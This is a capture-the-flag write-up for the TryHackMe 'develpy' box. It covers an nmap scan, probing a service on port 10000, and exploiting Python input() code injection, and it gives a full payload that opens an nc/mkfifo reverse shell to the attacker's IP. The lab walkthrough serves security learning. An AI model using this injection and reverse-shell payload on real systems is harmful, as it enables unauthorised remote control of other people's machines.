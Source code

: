 # #1 introduction
<img width="653" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/40ec553e-2637-4acb-a32f-27eb8fa4ebad">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx develpy.thm
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- develpy.thm
```

we got these open ports
```bash
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
10000/tcp open  snet-sensor-mgmt?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## port 10000

we try to nc the port to see if there is bytes sent by this one

<img width="700" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/92666550-9238-4774-b61d-b34e7a9ab3c0">

it seems there is a python script running and doing a ping request many times as our input\
if we sent some other payload than numbers, we can see an error and a piece of code of a file named exploit .py

<img width="732" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/056b9565-9146-431b-99d9-f2c0adcdfbfb">

seems as the return we can execute some python code with the input function... interesting\
after doing some research, i found an interesting article talking about exploiting a input function : https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html

<img width="734" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/a2b051ca-1031-4b44-8a0d-498364976497">

bingo ! we can execute commands so let's try to get a reverse shell with this input :
__import__('os').system("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.72.209 6666 >/tmp/f")

<img width="1329" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/7170aed9-0964-4e3b-ad84-f2d30f40936a">

and we got our reverse shell 
